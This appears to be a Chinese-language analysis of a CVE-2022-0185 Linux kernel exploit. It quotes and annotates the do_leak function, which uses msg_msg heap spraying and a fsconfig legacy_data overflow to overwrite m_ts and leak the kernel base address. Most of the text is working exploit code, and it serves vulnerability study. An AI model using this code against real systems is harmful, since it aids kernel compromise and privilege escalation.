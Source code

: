 #### 泄露kernel 基地址

我觉得该exp 的泄露部分用的非常巧妙，先溢出覆盖未被使用的部分，然后申请需要溢出覆盖的结构体这样不会破坏目标意外的部分，然后继续溢出精准覆盖目标。

主要是`do_leak`函数

CVE-2022-0185-master\exploit_fuse.c : 33 : do_leak

```c
uint64_t do_leak () 
{
    uint64_t kbase = 0;
    char pat[0x1000] = {0};
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};
    int targets[0x10] = {0};
    msg *message = (msg *)buffer;
    int size = 0x1018;

    // spray msg_msg
    for (int i = 0; i < 8; i++)   //[1]先申请8个独立的消息队列，每个里面存放一条消息
    {
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0); 
    }/*消息大小 0x1018-0x30,实际会分成两段
      *第一段 消息头msg_msg 0x30 和消息0xfd 共0x1000 kmalloc-4k
      *第二段 消息段头 msg_msgseg 0x8 和消息0x18 共0x20 kmalloc-32*/

    memset(pat, 0x42, sizeof(pat));
    pat[sizeof(pat)-1] = '\x00';
    puts("[*] Opening ext4 filesystem");

    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
            puts("fsopen: Remember to unshare");
            exit(-1);
    }

    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++)  
    {  //[2]溢出准备，多次调用fsconfig 将legacy_data 长度填充到4095准备溢出
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
    
    // overflow, hopefully causes an OOB read on a potential msg_msg object below
    puts("[*] Overflowing...");
    pat[21] = '\x00';
    char evil[] = "\x60\x10";
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    /*[3]溢出部分，输入长度21,由于每次溢出会自动加上",="所以实际23，再加上之前长度4095总共溢出22
     *这里正常情况发生溢出溢出的是还没被使用(分配)过的内存*/

    // spray more msg_msg
    for (int i = 8; i < 0x10; i++) 
    {//[4]继续msgsnd，申请msg_msg 结构体，大概率申请到将legacy_data后面的地方
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0);
    }//msg_msg 头会覆盖刚刚溢出的内容

    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
    /*[5]继续溢出，legacy_data+size 的指针指向的位置正好在msg_msg结构体的中间，m_ts 位之前
     *刚好覆盖m_ts，修改msg 的大小*/

```